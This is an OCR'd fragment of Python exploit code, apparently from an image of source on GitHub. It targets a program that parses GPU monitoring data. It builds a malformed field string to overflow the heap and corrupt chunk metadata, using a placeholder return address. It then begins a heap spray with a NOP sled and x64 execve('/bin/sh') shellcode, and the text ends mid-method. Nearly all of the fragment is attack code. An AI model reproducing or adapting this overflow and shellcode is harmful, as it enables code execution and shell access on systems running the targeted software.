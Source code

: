         # Add legitimate-looking fields first
        overflow_fields.extend([
            "100",    # GPU utilization
            "75",     # Memory utilization  
            "65",     # Temperature
            "150",    # Power consumption
        ])
        
        # Add overflow fields - targeting heap corruption
        # Each field is 8 bytes, targeting 1024+ byte overflow
        for i in range(200):  # 200 * 8 = 1600 bytes overflow
            overflow_fields.append("A" * 8)
            
        # Add heap metadata corruption payload
        # Target heap chunk headers for code execution
        shellcode_addr = struct.pack("<Q", 0x4141414141414141)  # Placeholder
        overflow_fields.append(shellcode_addr.hex())
        
        # Construct malformed GPU data
        malformed_data = gpu_type + ":" + ":".join(overflow_fields)
        
        return malformed_data.encode('utf-8')
    
    def create_heap_spray_payload(self):
        """
        Create heap spray payload for reliable exploitation
        """
        # NOP sled + shellcode for demonstration
        nop_sled = b"\x90" * 100  # NOP sled
        
        # Simple execve("/bin/sh") shellcode (x64)
        shellcode = (
            b"\x48\x31\xf6"                    # xor rsi, rsi
            b"\x56"                            # push rsi
            b"\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"  # mov rdi, '/bin/sh\x00'
            b"\x57"                            # push rdi
            b"\x54"                            # push rsp
            b"\x5f"                            # pop rdi
            b"\x6a\x3b"                        # push 0x3b
            b"\x58"                            # pop rax
            b"\x99"                            # cdq
            b"\x0f\x05"                        # syscall
        )
        